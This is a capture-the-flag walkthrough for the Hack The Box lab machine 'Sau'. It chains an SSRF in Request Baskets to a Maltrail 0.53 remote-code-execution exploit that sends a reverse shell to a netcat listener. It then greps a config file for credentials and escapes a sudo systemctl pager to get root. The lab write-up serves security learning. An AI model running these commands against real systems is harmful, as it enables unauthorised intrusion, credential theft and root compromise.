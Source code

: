 ## Box: Sau

## Target IP: `10.10.11.224`

---

### Preparation

Added to `/etc/hosts`:

```
10.10.11.224 sau.htb
```

---

### Initial Nmap Scan

Ran:

```bash
sudo nmap -sC -sV -p- --min-rate 10000 sau.htb
```

Results:

| Port | Service | Version |
| --- | --- | --- |
| 22 | ssh | OpenSSH (Ubuntu) |
| 80 | http | filtered |
| 55555 | http | - |

---

### Web Enumeration

Accessed:

```
http://sau.htb:55555/
```

Found **Request Basket** service.

Created a basket. Got a token.

Server showed received HTTP headers when requests were made to the basket.

---

### SSRF Discovery

Intercepted basket creation in Burp.

Found `forward_url` field.

Set `forward_url` to:

```
http://127.0.0.1
```

Confirmed server-side request forgery (SSRF) when server connected back to internal services.

Accessed internal webserver behind port 80:

Maltrail v0.53 showed on the page footer.

---

### Exploitation

Searched for Maltrail 0.53 vulnerabilities.

Found RCE exploit:

```bash
https://github.com/spookier/Maltrail-v0.53-Exploit
```

Downloaded exploit script.

Set up Netcat listener:

```bash
nc -lvnp 4444
```

Adjusted basket’s forward URL to:

```
http://127.0.0.1/login
```

Launched exploit:

```bash
python3 exploit.py 10.10.14.15 4444 "http://10.10.11.224:55555/r22f72i/"
```

Shell landed.

---

### Shell Stabilization

Ran:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo
fg
export TERM=xterm
```

Got stable TTY.

---

### Post-Exploitation

Searched for passwords:

```bash
grep -B5 -A5 -i password maltrail.conf | sed 's/ //g' | sort -u | less
```

Found credentials:

```
admin:9ab3cd9d67bf49d01f6a2e33d0bd9bc804ddbe6ce1ff5d219c42624851db5dbc:0:#changeme!
```

Checked sudo permissions:

```bash
sudo -l
```

Allowed to run:

```
sudo systemctl status trail.service
```

---

### Privilege Escalation

Ran:

```bash
sudo systemctl status trail.service
```

Dropped into a pager.

Escaped with:

```bash
! /bin/sh
```

Once shell popped, confirmed:

```bash
whoami
```

Output:

```
root
```

---

### Flags

Grabbed:

```bash
cd /root
cat root.txt
```

Box finished.
